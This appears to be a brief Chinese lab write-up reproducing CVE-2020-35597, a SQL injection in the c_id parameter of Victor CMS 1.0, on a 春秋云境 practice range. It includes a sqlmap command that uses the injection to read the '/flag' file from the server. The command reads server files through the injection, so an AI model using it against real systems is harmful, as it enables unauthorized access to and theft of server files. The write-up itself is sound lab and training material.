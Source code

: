 ```yaml
---
title: CVE-2020-35597【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

Victor CMS 1.0 admin_edit_comment.php c_id参数存在sql注入

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2020-35597)

## 2. 漏洞复现

注册账号并登录，访问 `http://eci-……………….cloudeci1.ichunqiu.com/admin/comment.php?source=edit_comment&c_id=1` 并抓包，用sqlmap进行post注入即可

```shell
python sqlmap.py -r post.txt -p c_id --file-read "/flag"  --random-agent --batch
```

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309262227083.png)

